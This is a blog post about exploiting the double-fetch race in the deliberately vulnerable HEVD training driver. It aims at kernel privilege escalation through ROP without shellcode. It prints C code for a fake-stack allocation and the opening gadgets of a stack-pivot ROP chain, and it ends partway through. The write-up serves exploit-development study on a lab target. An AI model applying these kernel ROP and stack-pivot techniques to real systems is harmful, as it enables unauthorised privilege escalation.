 [Home](https://plackyhacker.github.io)

# HEVD Double-fetch Privilege Escalation without Shellcode
       
## Introduction

Why am I revisiting the double-fetch in HEVD again?! The [first time](https://plackyhacker.github.io/kernel/race) I completed the challenge the end resullt was so dissatisfying, even though I got a privileged shell. The [second time](https://plackyhacker.github.io/kernel/double-fetch) was much better but I still wasn't 100% satisfied!

I amended the `cr4` register to bypass SMEP but that doesn't feel like a win. I don't know how reliable it is without knowing the `cr4` value in advance. Anyway I wanted to have another go, this time avoiding the execution of custom shellcode! WHAT? Without a read and write primitive? Yes, with the power of ROP! 

**Note:** I am not going to talk about the race condition as I have done that to death in the previous posts. If you are new to kernel exploitation, race conditions, stack pivots... etc. Please go read my other posts.

## Stack Pivoting

I learned previously that I had to overwrite the stack with as short a rop chain as possible so I could restore execution back to the stack and return to user mode with a privileged shell. So, around 5 or 6 gadgets to do the magic (In theory you can do this with one gadget). For this I needed to pivot to a fake stack in order to carry out the token stealing.

So I found myself a `mov esp, 0x...` gadget and allocated some memory for the fake stack:

```c
// stack pivot
QWORD STACK_PIVOT_ADDR = 0x83000000;

// prepare the new stack
QWORD stackAddr = STACK_PIVOT_ADDR - 0x1000;
LPVOID stack = VirtualAlloc((LPVOID)stackAddr, 0x14000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

printf("[+] User space stack, allocated address: 0x%p\n", stack);

if (!VirtualLock((LPVOID)stack, 0x14000)) {
   printf("[!] Error using VirtualLock. Error code: %u\n %d\n", GetLastError());
   return 1;
}
```

Here is the ROP chain that overwrites the kernel stack when the race condition is triggered:

```c
int index = 0;
char* offset = userBuffer + 0x808;
QWORD* rop = (QWORD*)offset;

*(rop + index++) = (QWORD)kernelBase + 0x31cd2e;			// push rsp ; pop rbp ; adc eax, 0x220F4400 ; ret ;
*(rop + index++) = (QWORD)kernelBase + 0x59f00e;			// mov esp, 0x83000000 ; ret ;
*(rop + index++) = INT3;                                    // padding, never gets hit
*(rop + index++) = INT3;                                    // padding, never gets hit
*(rop + index++) = INT3;                                    // padding, never gets hit
```
